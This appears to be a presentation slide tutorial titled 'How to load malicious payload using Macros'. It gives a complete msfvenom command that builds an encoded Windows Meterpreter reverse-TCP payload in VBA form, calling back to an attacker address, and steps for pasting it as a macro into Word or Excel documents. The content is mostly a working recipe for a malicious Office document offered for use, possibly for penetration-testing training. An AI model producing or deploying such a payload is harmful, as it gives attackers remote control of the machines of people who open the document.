

# How to load malicious payload using Macros
To begin, we first need to create our VBScript payload.

msfvenom -a x86 --platform windows -p windows/meterpreter/reverse_tcp LHOST=192.168.1.101 LPORT=8080 -e x86/shikata_ga_nai -f vba-exe.

The first part of the script is created as a macro and the second part is appended into the document text itself. You will need to transfer this script over to a machine with Windows and Office installed and perform the following

Word/Excel 2003: Tools -> Macros -> Visual Basic Editor
Word/Excel 2007: View Macros -> then place a name like "moo" and select "create".